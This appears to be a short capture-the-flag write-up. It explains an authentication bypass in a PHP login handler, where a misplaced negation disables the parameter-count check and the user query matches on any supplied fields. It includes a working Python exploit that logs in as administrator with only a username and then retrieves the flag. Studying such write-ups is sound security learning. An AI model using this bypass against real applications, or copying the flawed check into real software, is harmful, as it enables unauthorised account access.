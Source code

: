 ```
 if (!count($json_data) == 2) {
            return $this->respond("Please provide username and password", 404);
        }
```
I think Dev made some mistakes here , It should be 

```
 if (count($json_data) !== 2) {
            return $this->respond("Please provide username and password", 404);
        }
```

The Other Mistake that devs made is 
```
        $query = $db->table("users")->getWhere($json_data, 1, 0);
```
He just checked username for validation, actually he just check everything that included in $json_data but due to the mistake he made in above, it becomes a serious vulnerability
#Here is my exploit

```python
import requests
from bs4 import BeautifulSoup as bs

url = "http://94.237.62.149:54590/index.php"

def get_admin_token():
    full_path = f"{url}/login"
    headers = {"Content-Type": "application/json"}
    data = {"username" : "administrator"}
    respond = requests.post(full_path,headers=headers,json=data)
    token = respond.text.split('"')[7]
    get_flag(token)
    
def get_flag(token):
    full_path = f"{url}/profile"
    cookies = {"token":token}
    flag = requests.get(full_path,cookies=cookies)
    soup = bs(flag.content,"html5lib")
    flag = soup.find("div",attrs={"class":"home__desc"})
    flag = flag.text.strip()
    print(f"Flag is => {flag}")

if __name__ == "__main__":
    get_admin_token()
```
